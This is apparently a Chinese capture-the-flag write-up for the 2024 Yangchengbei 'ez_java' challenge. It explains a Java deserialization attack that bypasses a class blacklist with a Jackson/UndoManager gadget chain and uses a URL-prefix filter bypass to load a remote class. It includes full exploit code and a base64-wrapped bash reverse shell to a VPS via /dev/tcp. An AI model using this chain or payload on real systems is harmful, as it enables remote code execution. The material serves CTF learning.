 ```yaml
---
title: 2024羊城杯ez_java题解
---
```


*作者：Narcher*	*时间：2024/8/28*	*分类：writeup*

<!--more-->

### 前言

题目本身不难，但有很多小细节容易没注意到，写下来做警示吧



### 正文

题目开启后，首页是个登录框：

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828150602926.png" alt="image-20240828150602926" style="zoom:50%;" />

下载下来附件之后反编译拿源码

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828150115425.png" alt="image-20240828150115425" style="zoom:50%;" />

注意到在config包下有shiro的身份验证的配置

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828150331343.png" alt="image-20240828150331343" style="zoom: 67%;" />

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828150407025.png" alt="image-20240828150407025" style="zoom:67%;" />

不过没啥用，因为在User类里边给了我们用户名和密码

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828150456764.png" alt="image-20240828150456764" style="zoom: 67%;" />

登录进去之后，会有一个文件上传：

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828150832531.png" alt="image-20240828150832531" style="zoom:50%;" />

我们看一下源码：

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828150906849.png" alt="image-20240828150906849" style="zoom:50%;" />

差不多就是防止直接上传jsp🐎的，除了这个之外，还有一个路由有点意思：

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828151007826.png" alt="image-20240828151007826" style="zoom:67%;" />

典型的反序列化，但自定义了个MyObjectInputStream类进行了过滤：

```java
private static final String[] blacklist = new String[]{"java.lang.Runtime", "java.lang.ProcessBuilder", "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "java.security.SignedObject", "com.sun.jndi.ldap.LdapAttribute", "org.apache.commons.beanutils", "org.apache.commons.collections", "javax.management.BadAttributeValueExpException", "com.sun.org.apache.xpath.internal.objects.XString"};
```

我们再去看看依赖：

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828151206428.png" alt="image-20240828151206428" style="zoom:50%;" />

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828151219964.png" alt="image-20240828151219964" style="zoom:50%;" />

有CB依赖，jackson依赖等等，因为有过滤，剩下能用的就剩个jackson依赖触发任意getter了，我们再去看看User类：

<img src="2024%E7%BE%8A%E5%9F%8E%E6%9D%AFez_java%E9%A2%98%E8%A7%A3/image-20240828151416547.png" alt="image-20240828151416547" style="zoom:50%;" />

恰好有一个能利用的getter方法，里边是传统的URLClassLoader的远程类加载，可以加载.class或者.jar文件；还把http和file给禁用了，但它用的是startsWith禁用的，绕过方式有很多，比如在http或者file开头前加个url:或者jar:等等

例如：可以用`jar:http://1.1.1.1:8888/evil.jar!/`或者 `url:http://1.1.1.1:8888/evil.jar`远程加载jar；也可用`url:http://1.1.1.1:8888/`远程加载Evil.class

接下来要干的事情实际上很明确了：写一个恶意类，然后上传上去或者放vps上，然后远程类加载

恶意类我们就这样写：

```java
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Evil implements Serializable {
    private void readObject(ObjectInputStream in) throws IOException {
        Runtime.getRuntime().exec("bash -c {echo,<bash -i >& /dev/tcp/1.1.1.1/7777 0>&1的base64编码>}|{base64,-d}|{bash,-i}");
    }
}
```

然后`javac Evil.java`编译成.class文件直接上传到vps上，或者使用命令`jar -cvf evil.jar Evil.class`把.class文件再次压缩成jar包，然后python起一个web服务就好了，剩下的就是远程类加载的链和触发链了：

因为BadAttributeValueExpException被禁用了，链子就用jackson链的改编：

```java
import com.example.ycbjava.bean.User;
import com.example.ycbjava.utils.MyObjectInputStream;
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.swing.event.EventListenerList;
import javax.swing.undo.CompoundEdit;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.HashMap;
import java.util.Vector;

public class jackson {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        User user = new User();
        user.setUsername("url:http://1.1.1.1:8888/"); //注意更改vps地址
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();
        POJONode node = new POJONode(user);
        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Field editsField = CompoundEdit.class.getDeclaredField("edits");
        editsField.setAccessible(true);
        Vector vector = (Vector) editsField.get(undoManager);
        vector.add(node);
        setValue(eventListenerList,"listenerList",new Object[]{InternalError.class, undoManager});
        HashMap hashMap = new HashMap();
        hashMap.put(user,eventListenerList);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();
        byte[] serialize = byteArrayOutputStream.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(serialize));

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
        objectInputStream.readObject();
    }
}
```

触发链就简单了，因为是反序列化触发，所以引一下就行了：

```java
        Evil evil = new Evil();
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(evil);
        objectOutputStream.close();
        byte[] serialize = byteArrayOutputStream.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(serialize));
```

之后就挨个打就完了 

ps：还有一点要注意的，这道题目的传参方式虽然是POST传参，但传统POST传参貌似只会报error，只能用multipart/form-data的格式传参，这里也卡了我不少时间，需要注意一下



### 小结

java题的细节很多，要多多注意
